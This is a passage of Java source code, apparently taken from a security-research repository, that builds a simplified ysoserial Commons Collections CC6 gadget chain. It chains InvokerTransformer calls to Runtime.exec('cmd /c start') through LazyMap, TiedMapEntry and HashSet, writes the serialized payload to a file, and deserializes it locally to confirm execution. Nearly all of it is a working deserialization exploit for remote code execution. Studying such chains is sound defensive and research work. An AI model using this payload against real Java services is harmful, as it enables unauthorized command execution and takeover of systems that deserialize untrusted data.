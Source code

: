 ```java
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static void cc6bySimplify() throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

        // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
        Field iTransformers = transformerChain.getClass().getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        //TODO===========================CC6新的触发点 START By YsoSerial Simplify=============================
        HashMap map = new HashMap();
        map.put(entry, "1");
        HashSet set = new HashSet(map.keySet());
        lazyMap.clear();
        //TODO===============================CC6新的触发点 END By YsoSerial Simplify=========================
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(set);
        oos.flush();
        oos.close();
    }
}
```
